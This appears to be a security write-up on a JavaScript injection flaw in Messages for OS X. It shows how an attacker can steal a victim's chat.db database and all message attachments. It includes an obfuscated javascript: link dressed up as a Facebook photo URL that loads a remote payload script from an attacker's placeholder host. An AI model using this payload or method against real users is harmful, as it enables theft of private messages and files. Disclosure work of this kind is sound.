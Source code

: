When messages and attachments are received by Messages on OS X they are saved within the following directory:

`/Users/<username>/Library/Messages/*`

The textual content of these messages and other metadata are stored within a SQLite database located at:

`/Users/<username>/Library/Messages/chat.db`

This database also contains the locations for all of the attachments that are located on a user's machine.

In order to steal this database, and subsequently all of the attachments ever received or sent by a victim, a more advanced attack payload is needed.

### Exploit Overview

The following steps need to be carried out before the data can be successfully exfiltrated by an attacker:

1. Gain initial JavaScript execution in the application DOM
2. Obtain the current user (again `~` cannot be used)
4. Using the username, generate a full path that for the `chat.db` file i.e. `/Users/ExampleUser/Library/Messages/chat.db`
5. Use `XMLHttpRequest` to read the `chat.db` database and query it for attachment's file paths
6. Upload the database and all attachments using `XMLHttpRequest` or WebSockets if you want realtime access.

We can determine the currently logged in user by requesting, and subsequently parsing `/Library/Preferences/com.apple.loginwindow.plist`, this file is conviently readable from within the OS X application sandbox. From here it is trivial to construct the full path to the user's `chat.db`.

Once the database file has been successfully exfiltrated, it can be passed to a custom server-side script which extracts the full paths of the attachments sent and received by the victim, found within the `attachments` table in the database.

These full paths are retrieved by the malicious JavaScript payload and then are used to exfiltrate the attachment files from the victim's machine via `XMLHttpRequest`.


Next the attacker does a little obfuscation to make the URL a little more believable:

```
javascript://www.facebook.com/photo.php?fbid=111789595853599&set=a.111055039260388.1073741826.100010676767694&type=3&theater%0A%28function%28s%29%7Bs.src%3D%27http%3A%2f%2fyourhostname%3A8888%2ff%2fpayload.js%27%3Bdocument.body.appendChild%28s%29%7D%29%28document.createElement%28%27script%27%29%29
```

If the victim were to click the above URI in the Messages for OS X application, the victim's entire chat history and all associated attachments will be sent to the attacker.


## Take Aways

_JavaScript is Everywhere_

Web application security flaws are no longer limited to only the browser but rather have found their way into native applications too. While it can be productive for developers to use web technologies such as [WebKit](https://webkit.org/), or its far more dangerous kin [nw.js](http://nwjs.io/), to build desktop applications web application security best practices must still be followed.
